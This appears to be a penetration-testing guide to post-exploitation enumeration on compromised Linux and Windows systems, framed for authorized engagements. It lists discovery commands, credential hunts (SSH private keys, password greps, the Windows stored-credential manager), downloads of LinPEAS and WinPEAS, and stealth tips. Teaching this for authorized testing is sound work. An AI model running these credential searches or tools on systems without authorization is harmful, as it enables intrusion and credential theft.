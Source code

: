 Post-exploitation enumeration focuses on gathering information from a compromised system to facilitate lateral movement, persistence, data exfiltration, or further privilege escalation. This guide details enumeration techniques for Linux and Windows systems, using built-in tools and minimal third-party binaries.

---

### **1. Purpose of Post-Exploitation Enumeration**

- **Understand the Environment**:
    - Identify the operating system, installed applications, and configuration.
- **Gather Credentials**:
    - Locate plaintext credentials, password hashes, or SSH keys.
- **Identify Network Layout**:
    - Discover other systems and services on the network.
- **Locate Sensitive Data**:
    - Search for files containing confidential information.
- **Prepare for Lateral Movement**:
    - Find information to pivot to other systems.
- **Establish Persistence**:
    - Look for methods to maintain access.

---

### **2. Linux Enumeration**

### **a. System Information**

1. **Basic System Info**:
    
    ```bash
    uname -a        # Kernel version and architecture
    cat /etc/os-release  # OS version
    hostname        # Hostname
    whoami          # Current user
    
    ```
    
2. **Environment Variables**:
    
    ```bash
    env             # Environment variables
    echo $PATH      # Path variable
    
    ```
    
3. **Processes**:
    
    ```bash
    ps aux          # All running processes
    top             # Interactive process viewer
    
    ```
    
4. **File Systems**:
    
    ```bash
    df -h           # Disk usage
    mount           # Mounted filesystems
    
    ```
    

### **b. User and Group Enumeration**

1. **Logged-In Users**:
    
    ```bash
    who             # Current sessions
    w               # Active users
    last            # Login history
    
    ```
    
2. **User Details**:
    
    ```bash
    cat /etc/passwd  # List of users
    cat /etc/group   # List of groups
    id               # Current user's ID and group
    
    ```
    
3. **Sudo Privileges**:
    
    ```bash
    sudo -l          # Check current user's sudo rights
    
    ```
    

### **c. Network Enumeration**

1. **Interfaces and Routes**:
    
    ```bash
    ifconfig         # Network interfaces
    ip addr          # Detailed interface info
    ip route         # Routing table
    
    ```
    
2. **Connections**:
    
    ```bash
    netstat -tuln    # Listening services
    ss -tuln         # Alternative for netstat
    
    ```
    
3. **DNS Configuration**:
    
    ```bash
    cat /etc/resolv.conf  # DNS servers
    
    ```
    

### **d. Service Enumeration**

1. **System Services**:
    
    ```bash
    systemctl list-units --type=service  # Active services
    service --status-all                 # Legacy service list
    
    ```
    
2. **Web Services**:
    - Search for web server files:
        
        ```bash
        find / -name '*.conf' 2>/dev/null | grep apache
        
        ```
        

### **e. Searching for Sensitive Files**

1. **Common Sensitive Files**:
    
    ```bash
    find / -name "*id_rsa" 2>/dev/null  # SSH private keys
    find / -name "*.conf" 2>/dev/null  # Configuration files
    
    ```
    
2. **Search for Credentials**:
    
    ```bash
    grep -i "password" /var/www/html/*  # Search for plaintext passwords
    
    ```
    

---

### **3. Windows Enumeration**

### **a. System Information**

1. **Basic Info**:
    
    ```powershell
    systeminfo                 # System details
    Get-WmiObject Win32_OperatingSystem | Select-Object *  # OS and hardware
    
    ```
    
2. **Environment Variables**:
    
    ```powershell
    Get-ChildItem Env:         # List environment variables
    
    ```
    
3. **Processes**:
    
    ```powershell
    Get-Process                # Running processes
    tasklist                   # CLI alternative
    
    ```
    
4. **File Systems**:
    
    ```powershell
    Get-PSDrive                # Mounted drives
    
    ```
    

### **b. User and Group Enumeration**

1. **Logged-In Users**:
    
    ```powershell
    query user                 # Currently logged-in users
    Get-LocalUser              # List local users
    
    ```
    
2. **Groups and Permissions**:
    
    ```powershell
    Get-LocalGroup             # List local groups
    Get-LocalGroupMember -Group Administrators  # Check administrators
    
    ```
    

### **c. Network Enumeration**

1. **Interfaces and Routes**:
    
    ```powershell
    ipconfig /all              # Network interfaces
    route print                # Routing table
    
    ```
    
2. **Connections**:
    
    ```powershell
    netstat -ano               # Active connections
    
    ```
    
3. **DNS Configuration**:
    
    ```powershell
    Get-DnsClientServerAddress # DNS servers
    
    ```
    

### **d. Service Enumeration**

1. **Installed Services**:
    
    ```powershell
    Get-Service                # All services
    sc query                   # Command-line alternative
    
    ```
    
2. **Scheduled Tasks**:
    
    ```powershell
    schtasks                   # List scheduled tasks
    
    ```
    

### **e. Searching for Sensitive Files**

1. **Common Sensitive Files**:
    
    ```powershell
    dir C:\\ /S /A:-D | findstr /I "password"  # Search for password in files
    
    ```
    
2. **Credential Stores**:
    
    ```powershell
    rundll32.exe keymgr.dll,KRShowKeyMgr  # View stored credentials
    
    ```
    

---

### **4. Additional Tools for Enumeration**

1. **Linux**:
    - **LinPEAS**:
        
        ```bash
        curl -L <https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh> -o linpeas.sh
        chmod +x linpeas.sh
        ./linpeas.sh
        
        ```
        
2. **Windows**:
    - **WinPEAS**:
        
        ```powershell
        iwr -Uri <https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany.exe> -OutFile winPEASany.exe
        ./winPEASany.exe
        
        ```
        
    - **Seatbelt**:
        
        ```powershell
        .\\Seatbelt.exe all
        
        ```
        

---

### **5. Tips for Effective Enumeration**

- **Stay Stealthy**:
    - Use built-in tools to minimize detection.
    - Avoid excessive file searches or noisy commands.
- **Document Findings**:
    - Maintain a clear log of enumerated data.
- **Focus on High-Value Targets**:
    - Credentials, configuration files, and network data.

---

### **6. Ethical Considerations**

- **Authorized Engagements**:
    - Ensure all activities are within scope.
- **No Unnecessary Changes**:
    - Avoid modifying or damaging the system.
- **Report Findings**:
    - Document and report all findings accurately for remediation.
